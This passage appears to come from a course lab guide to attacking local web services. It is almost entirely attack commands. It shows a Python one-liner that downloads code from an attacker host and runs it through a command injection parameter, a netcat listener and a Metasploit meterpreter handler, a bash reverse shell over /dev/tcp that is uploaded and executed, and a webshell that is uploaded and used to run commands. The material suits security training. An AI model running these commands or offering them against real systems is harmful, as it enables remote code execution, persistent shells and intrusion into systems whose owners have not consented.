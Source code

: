 ```bash
# python3 -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://<attacker-ip>:8000/...',context=ssl._create_unverified_context());exec(r.read());"

# URL-encode and execute via command injection:
PAYLOAD="<generated-python-command>"
curl -s "http://localhost:8080/api/admin/system?cmd=$PAYLOAD"
```

#### Set up listener first

```bash
# In another terminal
nc -lvnp 4444

# Or use Metasploit handler
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
exploit
```

### 3.5 File Upload & Execution (Cours 08)

#### Create Malicious Script

```bash
# Create a reverse shell script
cat > shell.sh <<'EOF'
#!/bin/sh
/bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
EOF

# Upload the file
curl -X POST http://localhost:8082/api/files/upload \
  -F "file=@shell.sh"

# Execute the uploaded file
curl -s "http://localhost:8082/api/files/execute?file=shell.sh"
```

#### Webshell Upload

```bash
# Create a simple webshell
cat > webshell.sh <<'EOF'
#!/bin/sh
echo "Content-type: text/plain"
echo ""
$1
EOF

# Upload
curl -X POST http://localhost:8082/api/files/upload -F "file=@webshell.sh"

# Execute commands through it
curl -s "http://localhost:8082/api/files/execute?file=webshell.sh" -d "whoami"
```
